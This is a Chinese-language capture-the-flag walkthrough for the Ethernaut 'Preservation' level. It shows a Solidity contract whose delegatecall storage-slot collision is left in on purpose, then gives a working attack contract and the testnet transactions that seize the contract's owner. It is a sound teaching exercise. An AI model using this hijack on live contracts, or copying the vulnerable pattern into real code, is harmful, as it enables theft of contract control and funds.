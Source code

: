 # Level 16: Preservation

## 1. 问题

有一个合约 `Preservation` , 这个合约 **原本** 想用2个 lib 库来分别存储一个 时间(timestamp)。他的实现有问题，想让你利用他的漏洞，把这个合约的 `owner` 改成自己。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```


## 2. 解法

原始合约的 bug 在于错误使用了 `delegatecall`。正常调用其他合约时，应该使用 `call`, 这样 `LibraryContract` 内的 `storedTime` 就会改为输入值。

当前合约使用 `delegatecall`, 则是相当于把这个代码拿到自己本地执行，修改的是自己合约内 `storage` 的槽内的值。

我们的攻击思路为：首先调用 `setFirstTime` 或者 `setSecondTime`, 将 `Preservation` 合约中第一个槽位的值，也就是 `timeZone1Library` 的值改成我们自己的攻击合约。然后再调用一次 `setFirstTime` 合约，执行我们攻击合约内部的逻辑，并且我们的攻击合约里的 `setTime` 函数改成修改第三个槽位值为 `tx.origin`，从而达到我们的效果。

> [!TIP]
> 这里我们提供一个测试文件 [Level16.t.sol](../../test/level16/Level16_localTest.t.sol)
> 可以在提交之前进行本地调试，调试成功再在测试链上执行

<br/>

1. 我们部署攻击合约, [部署交易](https://sepolia.etherscan.io/tx/0xfb94b76ab879626810d342eebaea5c7d9e16d8235c965eaeea256b6a0f631727) , 合约地址 [0xfb4a552417107cd1935d182c9832748da4510f9f](https://sepolia.etherscan.io/address/0xfb4a552417107cd1935d182c9832748da4510f9f)：

```solidity
contract HackPreservation {
    address public _placeholderTimezone1Library;
    address public _placeholderTimezone2Library;
    address public _placeholderOwner;

    constructor() {
    }
    
    function setTime(uint256 _time) public {
        // uint转换时截取低位
        _placeholderOwner = address(uint160(_time));
    }

}
```

2. 调用 `Preservation` 合约的 `setFirstTime` 接口，目标是将合约的地址值改成刚刚部署的 `HackPreservation` 合约的地址，所以我们需要指定传入的参数为合约地址转换成 `uint256`, [交易地址](https://sepolia.etherscan.io/tx/0x57244d7486e5c4fd8b725042471bce8b305f0c9c3a0924d1463590ef86365dfe)

![](../../resources/img/level16/addr2uint2562.png)

![](../../resources/img/level16/setFIrst12.png)

3. 此时我们查询可以确认，`timeZone1Library` 的值已经换成了我们刚刚部署的 `HackPreservation` 合约的地址：


![](../../resources/img/level16/new1Lib.png)


4. 次数我们再次调用 `Preservation` 合约的 `setFirstTime` 接口，实际会执行 `HackPreservation` 合约的 `setTime` 接口，这个函数里面会修改owner地址。注意此时的入参，需要填写我们发起的合约地址。[交易地址](https://sepolia.etherscan.io/tx/0xd5943ae17931f3ba68a67b785ed28c885631104df481cb996ce62b866bf36910)

![](../../resources/img/level16/setF2.png)

5. 此时我们查询，确认 `owner` 已经修改成我们要的地址了

![](../../resources/img/level16/newOwner.png)

6. 点击 `submit instance`， 提交通过！


<br/>
<br/>

| [⬅️ level15 Naught Coin](../level15_naughtcoin/README.md) | [level17 Recovery ➡️](../level17_recovery/README.md) |
|:------------------------------|--------------------------:|
